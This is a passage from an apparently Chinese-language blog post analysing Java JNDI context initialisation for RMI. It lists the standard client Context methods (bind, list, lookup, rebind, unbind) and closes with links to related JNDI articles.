

但是getRemainingName在初始化的时候并没有获取到名称，所以并不会调用lookup

由此可以看到，最终初始化的时候获取了一系列RMI通信过程中所需的资源



所以初始化的流程如下图：



当然，如果是用的这种配置的env方法的话，在lookup的流程中又会不太一样了，可能会更方便精确些吧

## 客户端Context与服务交互

和服务的交互主要是这几种方法

```java
//将名称绑定到对象
bind(Name name, Object obj)
 
//枚举在命名上下文中绑定的名称以及绑定到它们的对象的类名
list(String name) 
 
//检索命名对象
lookup(String name)
 
//将名称重绑定到对象 
rebind(String name, Object obj) 
 
//取消绑定命名对象
unbind(String name) 
```

这个没啥好说的，都挺简单，具体的lookup刚刚也分析过哈哈哈

参考文章：
https://drun1baby.top/2022/07/28/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8BJNDI%E5%AD%A6%E4%B9%A0/

https://goodapple.top/archives/696

https://baozongwi.xyz/p/jndi-injection/
